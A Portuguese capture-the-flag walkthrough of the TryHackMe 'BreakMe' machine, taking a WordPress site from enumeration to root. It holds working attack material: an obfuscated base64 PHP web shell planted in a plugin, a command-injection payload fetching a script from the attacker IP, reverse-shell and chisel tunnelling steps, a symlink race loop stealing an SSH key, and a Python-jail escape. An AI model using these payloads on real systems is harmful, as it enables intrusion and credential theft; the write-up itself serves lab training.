

> [!Informações]
> - **URL: ** `http://breakme.thm/`
> - **Periodo:** 02/05/2025 a 05/05/2025
> - Máquina do `TryHackMe` de Nível **Médio**
> - Sistema Operacional: Linux

# Cronologia das Informações

## Informações iniciais da aplicação


						**Página inicial da aplicação.**

### NMAP


### Varredura de Diretórios

`gobuster dir --url http://breakme.thm/ --wordlist /home/arthur-strelow/SecLists/Discovery/Web-Content/raft-large-files-directories.txt -t 25`


Bem... O `gobuster` revelou que essa aplicação está rodando um `wordpress` com isso podermos direcionar a atenção nesse diretório.

`gobuster dir --url http://breakme.thm/wordpress/ --wordlist /home/arthur-strelow/SecLists/Discovery/Web-Content/raft-large-files-directories.txt -t 25`


Ao descobrimos esse diretório `wordpress`, foi feito uma análise manual. Foi encontrado essa pasta `index.php`.


**Hora da varredura**
`gobuster dir --url http://breakme.thm/wordpress/index.php --wordlist /home/arthur-strelow/SecLists/Discovery/Web-Content/raft-large-files-directories.txt -t 25`

**Nada encontrado!**

## WPScan
A príncipio, foi usada a ferramenta `wpscan` para fazer uma varredura completa da aplicação
`wpscan --url http://breakme.thm/wordpress -e`

						ESSE SCAN FOI PEGO DE TERCEIROS
```
_______________________________________________________________  
__ _______ _____  
\ \ / / __ \ / ____|  
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®  
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \  
\ /\ / | | ____) | (__| (_| | | | |  
\/ \/ |_| |_____/ \___|\__,_|_| |_|  
  
WordPress Security Scanner by the WPScan Team  
Version 3.8.25  
Sponsored by Automattic - https://automattic.com/  
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart  
_______________________________________________________________  
  
[+] URL: http://10.10.231.172/wordpress/ [10.10.231.172]  
[+] Started: Tue Sep 24 12:37:42 2024  
  
Interesting Finding(s):  
  
[+] Headers  
| Interesting Entry: Server: Apache/2.4.56 (Debian)  
| Found By: Headers (Passive Detection)  
| Confidence: 100%  
  
[+] XML-RPC seems to be enabled: http://10.10.231.172/wordpress/xmlrpc.php  
| Found By: Direct Access (Aggressive Detection)  
| Confidence: 100%  
| References:  
| - http://codex.wordpress.org/XML-RPC_Pingback_API  
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/  
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/  
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/  
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/  
  
[+] WordPress readme found: http://10.10.231.172/wordpress/readme.html  
| Found By: Direct Access (Aggressive Detection)  
| Confidence: 100%  
  
[+] The external WP-Cron seems to be enabled: http://10.10.231.172/wordpress/wp-cron.php  
| Found By: Direct Access (Aggressive Detection)  
| Confidence: 60%  
| References:  
| - https://www.iplocation.net/defend-wordpress-from-ddos  
| - https://github.com/wpscanteam/wpscan/issues/1299  
  
[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).  
| Found By: Rss Generator (Passive Detection)  
| - http://10.10.231.172/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>  
| - http://10.10.231.172/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>  
|  
| [!] 4 vulnerabilities identified:  
|  
| [!] Title: WP < 6.5.2 - Unauthenticated Stored XSS  
| Fixed in: 6.4.4  
| References:  
| - https://wpscan.com/vulnerability/1a5c5df1-57ee-4190-a336-b0266962078f  
| - https://wordpress.org/news/2024/04/wordpress-6-5-2-maintenance-and-security-release/  
|  
| [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in HTML API  
| Fixed in: 6.4.5  
| References:  
| - https://wpscan.com/vulnerability/2c63f136-4c1f-4093-9a8c-5e51f19eae28  
| - https://wordpress.org/news/2024/06/wordpress-6-5-5/  
|  
| [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in Template-Part Block  
| Fixed in: 6.4.5  
| References:  
| - https://wpscan.com/vulnerability/7c448f6d-4531-4757-bff0-be9e3220bbbb  
| - https://wordpress.org/news/2024/06/wordpress-6-5-5/  
|  
| [!] Title: WordPress < 6.5.5 - Contributor+ Path Traversal in Template-Part Block  
| Fixed in: 6.4.5  
| References:  
| - https://wpscan.com/vulnerability/36232787-754a-4234-83d6-6ded5e80251c  
| - https://wordpress.org/news/2024/06/wordpress-6-5-5/  
  
[+] WordPress theme in use: twentytwentyfour  
| Location: http://10.10.231.172/wordpress/wp-content/themes/twentytwentyfour/  
| Last Updated: 2024-07-16T00:00:00.000Z  
| Readme: http://10.10.231.172/wordpress/wp-content/themes/twentytwentyfour/readme.txt  
| [!] The version is out of date, the latest version is 1.2  
| Style URL: http://10.10.231.172/wordpress/wp-content/themes/twentytwentyfour/style.css  
| Style Name: Twenty Twenty-Four  
| Style URI: https://wordpress.org/themes/twentytwentyfour/  
| Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...  
| Author: the WordPress team  
| Author URI: https://wordpress.org  
|  
| Found By: Urls In Homepage (Passive Detection)  
|  
| Version: 1.0 (80% confidence)  
| Found By: Style (Passive Detection)  
| - http://10.10.231.172/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.0'  
  
[+] Enumerating Vulnerable Plugins (via Passive Methods)  
[+] Checking Plugin Versions (via Passive and Aggressive Methods)  
  
[i] Plugin(s) Identified:  
  
[+] wp-data-access  
| Location: http://10.10.231.172/wordpress/wp-content/plugins/wp-data-access/  
| Last Updated: 2024-09-18T00:01:00.000Z  
| [!] The version is out of date, the latest version is 5.5.14  
|  
| Found By: Urls In Homepage (Passive Detection)  
|  
| [!] 3 vulnerabilities identified:  
|  
| [!] Title: WP Data Access < 5.3.8 - Subscriber+ Privilege Escalation  
| Fixed in: 5.3.8  
| References:  
| - https://wpscan.com/vulnerability/7871b890-5172-40aa-88f2-a1b95e240ad4  
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1874  
| - https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/  
|  
| [!] Title: Freemius SDK < 2.5.10 - Reflected Cross-Site Scripting  
| Fixed in: 5.3.11  
| References:  
| - https://wpscan.com/vulnerability/39d1f22f-ea34-4d94-9dc2-12661cf69d36  
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33999  
|  
| [!] Title: WP Data Access < 5.5.9 - Cross-Site Request Forgery  
| Fixed in: 5.5.9  
| References:  
| - https://wpscan.com/vulnerability/4fe0d330-6511-4500-ac3f-b9bb944b8f0e  
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-43295  
| - https://www.wordfence.com/threat-intel/vulnerabilities/id/85a33508-71f2-4aa1-8d51-667eb0690fbd  
|  
| Version: 5.3.5 (80% confidence)  
| Found By: Readme - Stable Tag (Aggressive Detection)  
| - http://10.10.231.172/wordpress/wp-content/plugins/wp-data-access/readme.txt  
  
[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)  
Checking Known Locations - Time: 00:00:08 <==================================================================================================================================> (652 / 652) 100.00% Time: 00:00:08  
[+] Checking Theme Versions (via Passive and Aggressive Methods)  
  
[i] No themes Found.  
  
[+] Enumerating Timthumbs (via Passive and Aggressive Methods)  
Checking Known Locations - Time: 00:00:33 <================================================================================================================================> (2575 / 2575) 100.00% Time: 00:00:33  
  
[i] No Timthumbs Found.  
  
[+] Enumerating Config Backups (via Passive and Aggressive Methods)  
Checking Config Backups - Time: 00:00:02 <===================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02  
  
[i] No Config Backups Found.  
  
[+] Enumerating DB Exports (via Passive and Aggressive Methods)  
Checking DB Exports - Time: 00:00:01 <=========================================================================================================================================> (75 / 75) 100.00% Time: 00:00:01  
  
[i] No DB Exports Found.  
  
[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)  
Brute Forcing Attachment IDs - Time: 00:00:02 <==============================================================================================================================> (100 / 100) 100.00% Time: 00:00:02  
  
[i] No Medias Found.  
  
[+] Enumerating Users (via Passive and Aggressive Methods)  
Brute Forcing Author IDs - Time: 00:00:00 <====================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00  
  
[i] User(s) Identified:  
  
[+] admin  
| Found By: Author Posts - Author Pattern (Passive Detection)  
| Confirmed By:  
| Rss Generator (Passive Detection)  
| Wp Json Api (Aggressive Detection)  
| - http://10.10.231.172/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1  
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)  
| Login Error Messages (Aggressive Detection)  
  
[+] bob  
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)  
| Confirmed By: Login Error Messages (Aggressive Detection)  
  
[+] WPScan DB API OK  
| Plan: free  
| Requests Done (during the scan): 3  
| Requests Remaining: 19
```

> [!Observação]
> O WPScan capturou algumas vulnerabilidades sendo ela uma escalação de privilégios e alguns usuários

`http://breakme.thm/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1`

```
[
  {
    "id": 1,
    "name": "admin",
    "url": "http://192.168.1.6/wordpress",
    "description": "",
    "link": "http://breakme.thm/wordpress/index.php/author/admin/",
    "slug": "admin",
    "avatar_urls": {
      "24": "http://2.gravatar.com/avatar/e6d67fed862c439aa6e911ce49c7857d?s=24&d=mm&r=g",
      "48": "http://2.gravatar.com/avatar/e6d67fed862c439aa6e911ce49c7857d?s=48&d=mm&r=g",
      "96": "http://2.gravatar.com/avatar/e6d67fed862c439aa6e911ce49c7857d?s=96&d=mm&r=g"
    },
    "meta": [],
    "_links": {
      "self": [
        {
          "href": "http://breakme.thm/wordpress/index.php/wp-json/wp/v2/users/1"
        }
      ],
      "collection": [
        {
          "href": "http://breakme.thm/wordpress/index.php/wp-json/wp/v2/users"
        }
      ]
    }
  }
]
```

Porém a ferramenta retornou mais um usuário


Então ao obter esse usuário, foi feito uma tentativa de `brute force` com a `wordlist` da `rockyou.txt`.


**Autenticado com sucesso**

> [!Primeira credencial obtida!]
> Usuário: bob
> Senha: soccer

#### Escalando do usuário `bob` -> `admin`

Normalmente, a primeira coisa a ser feita em uma aplicação (ainda mais com pouco privilégio) é mexer em tudo, ver como as coisas reagem.


Foi seguido os passos que o link relata (disponível pela ferramenta) para a escalação de privilégios. Foi buscado algum lugar para que possa fazer essa atualização de dados e inserir esse `wpda_role`. Até que foi encontrado a página do usuário.


Então adicionando a requisição com a vulnerabilidade, foi obtido a escalação.


## Explorando a Aplicação

Acessando a aplicação foi encontrado um módulo chamado `WP Data Access` que permite fazer manipular o banco pela aplicação

Foi extraído tudo da tabela `wp_users`


Foi executado o `John The Ripper` para poder fazer a quebra da hash do usuário `admin`

`john --format=phpass hash --wordlist=/home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt`
 **Porém não obtive sucesso**

O Vetor de ataque escolhido foi a exploração de temas,  uma vez que a tentativa de modificar arquivos de temas resultou na seguinte resposta:  `É necessário realizar a reiniciação da aplicação`

### `Plugin: Akismet`

Primeiro plugin escolhido foi o `akismet` o arquivo foi alterado


Ativando o plugin para poder fazer a exploração


Porém acabamos nos deparando com essa mensagem

`Hi there! I'm just a plugin, not much I can do when called directly.`

### `Plugin: Hello Dolly`

Seguindo os passos anteriores foi feito a ativação no plugin.


E a shell foi implantada nesse momento
`eval(base64_decode('aWYgKGlzc2V0KCRfR0VUWyJcMTQzXDE1NVx4NjQiXSkpIHsgc3lzdGVtKCRfR0VUWyJcMTQzXHg2ZFwxNDQiXSk7IH0='));`

Como foi descoberto anteriormente, que esse plugin, ele fica rodando na página inicial ao acessarmos passando o parâmetro `cmd` conseguimos ter acesso a shell.


### Obtendo a shell reversa

Passo 1 – Criação do script `rev.sh`
Passo 2 – Foi Iniciado um servidor HTTP em Python
Passo 3 – Transferência do script via shell web implantada
Passo 4 – Inicio do listener `Netcat`
Passo 5 – Execução do script no servidor remoto


## Pós Exploração
### Usuário: `www-data`

#### Explorando arquivos e Processos

Uma vez dentro do usuário `www-data` buscarmos arquivos/diretórios interessantes que possa contribuir para uma exploração, escalação ou pivoting.

O Primeiro arquivo a ser analisado foi o `wp-config.php`

> [!Configuração do Banco]
> // ** Database settings - You can get this info from your web host ** //
> /** The name of the database for WordPress */
> define( 'DB_NAME', 'wpdatabase' );
> 
> /** Database username */
> define( 'DB_USER', 'econor' );
> 
> /** Database password */
> define( 'DB_PASSWORD', 'SuP3rS3cR37#DB#P@55wd' );
> 
> /** Database hostname */
> define( 'DB_HOST', 'localhost' );

O `Linpeas.sh` foi executado e foi mostrado uma linha interessante para o momento
`john         534  0.0  1.0 193800 20616 ?        Ss   07:41   0:00 /usr/bin/php -S 127.0.0.1:9999`

Indica-se que tem um serviço que está rodando na porta "9999", mas foi necessário criar um túnnel usando o `chisel`

#### Chisel

Instalação do binário (Máquina do Atacante)
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
mv chisel_1.8.1_linux_amd64 chisel
chmod +x chisel
```

Instalação do binário (Máquina da Vítima)
```
wget http://<SEU-IP>:8000/chisel -O /tmp/chisel
chmod +x /tmp/chisel
```

Agora foi necessário iniciar a execução do lado do atacante
`./chisel server --reverse -p 8000`

- `--reverse` -> Habilita túneis reversos
- `-p 8000` -> porta onde vai escutar conexões

Agora a execução na máquina da vítima
`/tmp/chisel client <SEU-IP>:8000 R:9999:127.0.0.1:9999`

- `R:` -> Túnel reverso
- `9999:127.0.0.1:9999` -> Basicamente: “exponha a porta **9999 do host remoto (Atacante)** como se fosse esta 127.0.0.1:9999 do alvo”

**Túnel feito com sucesso!**

#### Acessando o serviço da porta 9999


Foi upado e executado na máquina da vítima o `pspy64` para podermos fazer o monitoramento dos processos

Na primeira parte foi passado o IP `10.13.72.32` para ele pingar


Na segunda parte ele passa um comando `id` e o "nome do usuário" que estamos procurando


Executando com `| whoami`

Foi percebido que ele remove espaços. Então provavelmente foi aplicado algum filtro


Filtros aplicados: `~ ! @ # $ % ^ & * ( ) - _ + = { } ] [ | \ ` , . / ? ; : ' " < >`


Então sabendo dessas informações foi a hora de montar a payload.

##### Criação e execução da payload

**Primeira Etapa**: Anteriormente foi criado o `rev.sh` e agora foi criado o `rev2.sh` a payload é a mesma (praticamente), a única alteração é o número da porta que escutará.

**Segunda Etapa**: Foi iniciado um servidor em Python e exploramos a aplicação para baixar o arquivo malicioso

`|wget${IFS}10.13.72.32:9000/rev2.sh`


> [!O que é "${IFS}]
> Em scripts Bash, `"${IFS}"` refere-se à variável de ambiente `IFS`, que significa "Internal Field Separator". Essa variável define os caracteres que são utilizados para separar palavras em um texto, em um script Bash. O valor padrão de `IFS` é um espaço, um tab e uma nova linha.

**Terceira etapa**:

Agora é preciso apenas executar o arquivo `.sh`


### Usuário `john`

#### Persistência

Antes de iniciar qualquer procedimento, foi seguido um passo padrão, a persistência.

O meio escolhido foi através da criação de chaves SSH


#### John -> Youcef

Agora que temos acesso a pasta do `youcef`podermos listar os arquivos presentes


Após fazer alguns testes, foi descoberto que o `readfile` consegue ler arquivos, mas não todos. Esse binário possuí algumas restrições, usando o `binaryNinja`podermos ver como isso está setado


 Após muitas análises e pesquisas foi descoberto que esse binário está vulnerável.
##### Explorando a vulnerabilidade de Race Condition

Para explorar essa vulnerabilidade de condição de corrida, podemos criar um arquivo e alterná-lo constantemente entre um arquivo normal e um link simbólico apontando para o arquivo que queremos ler `youcef`. Dessa forma, esperamos que, enquanto o aplicativo realiza as verificações, ele veja um arquivo normal e nós passemos nas verificações. No entanto, quando chegar a hora de abrir e ler, ele apontará `symlink`para o arquivo que realmente queremos ler.

Para isso, primeiro usaremos um loop para alternar constantemente o arquivo entre esses dois estados e executá-lo em segundo plano.

`while true; do touch file; sleep 0.3; ln -sf /home/youcef/.ssh/id_rsa file; sleep 0.3; rm file; done &`


Agora, criaremos outro loop que executa o programa continuamente, na esperança de vencer a condição de corrida. Se tivermos sucesso, ele imprimirá a saída e sairá.

`while true; do out=$(/home/youcef/readfile file | grep -Ev 'Found|guess'| grep .);if [[ -n "$out" ]]; then echo -e "$out"; break; fi; done`


**Chave SSH Obtida!**


##### Escalando

Foi feito uma tentativa para autenticar-se usando a chave SSH obtida, mas não tivermos sucesso.


O `John-The-Ripper` foi escolhido para quebrar essa chave SSH


> [!Frase secreta da Chave SSH do Youcef]
> a123456          (/home/arthur-strelow/Downloads/id_rsa_youcef) 

E com isso podermos nos autenticar no usuário `youcef`

### Usuário `Youcef`

Foi feito uma verificação nos privilégios do sudo
```
youcef@Breakme:~$ sudo -l
Matching Defaults entries for youcef on breakme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
```

Foi executado esse arquivo
```
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
```

Foi feito alguns testes
```
>> teste
Wrong Input
>> print('ola')
ola
>> 
```

Foi feito uma tentativa de inserir uma biblioteca `os`

```
>> import os
Illegal Input
```

Então foi partido para `payloads` para poder escapar dos filtros

## Escalando Privilégios para o Root

Procurando por `payloads` de `bypass` foi encontrado um site que ajudou bastante no processo

https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes

A `payload`que foi encontrada ela importa o `os` módulo e chama a função `system` a partir dele

`__builtins__.__import__("os").system("ls")`

```
>> __builtins__.__import__("os").system("ls")
Illegal Input
```

Então é feito algumas tentativas para dividir
```
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> __builtins__.__import__
Illegal Input
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> __builtins__           
>> __import__
Illegal Input
youcef@Breakme:~$ 
```

Foi analisado algumas tentativas e foi decidido mudar um pouco a payload

`__builtins__.__dict__['__import__']` -> `__dict__` permite acessar os atributos do objeto como um dicionário

E foram tentados vários métodos. Até encontrar esse
`print(__builtins__.__dict__['__IMPORT__'.casefold()])`

```
>> print(__builtins__.__dict__['__IMPORT__'.casefold()])
<built-in function __import__>
```


Foi feito uma tentativa também com o `print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()))`
```
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()))
<module 'os' from '/usr/lib/python3.9/os.py'>
```


E por fim, foi executado o `print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])` e foi concluível que a payload está executando os arquivos do `os` agora foi escolhido um meio de chamar uma shell
```
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])
<built-in function system>
```

A máquina ela deu uma dica
```
Interpreted programming language designed for numerics, graph plotting, and steering large scientific simulation codes.
```

Procurando isso pela internet foi encontrado um software chamado `Yorick`

Foi juntado todas essas informações e feito essa payload
`__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')`

```
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')
 Copyright (c) 2005.  The Regents of the University of California.
 All rights reserved.  Yorick 2.2.04 ready.  For help type 'help'
> help
 /* DOCUMENT help, topic
          or help
      Prints DOCUMENT comment from include file in which the variable
      TOPIC was defined, followed by the line number and filename.
      By opening the file with a text editor, you may be able to find
      out more, especially if no DOCUMENT comment was found.
      Examples:
        help, set_path
      prints the documentation for the set_path function.
        help
      prints the DOCUMENT comment you are reading.
 
      This copy of Yorick was launched from the directory:
       /lib/yorick/bin/
      Yorick's "site directory" at this site is:
       /lib/yorick/
      You can find out a great deal more about Yorick by browsing
      through these directories.  Begin with the site directory,
      and pay careful attention to the subdirectories doc/ (which
      contains documentation relating to Yorick if the yorick-doc
      package is installed) and i/ (which contain many examples of
      Yorick programs).
      Look for files called README (or something similar) in any
      of these directories -- they are intended to assist browsers.
      The site directory itself contains std.i and graph.i, which
      are worth reading.
 
      Type:
        help, dbexit
      for help on debug mode.  If your prompt is "dbug>" instead of
      ">", dbexit will return you to normal mode.
 
      Type:
        quit
      to quit Yorick.
 
    SEE ALSO: about, quit, info, print, copyright, warranty, legal
  */
 defined at:  LINE: 37  FILE: /lib/yorick/i0/std.i
> system, "bash"
root@Breakme:/home/youcef# id
uid=0(root) gid=0(root) groups=0(root)
```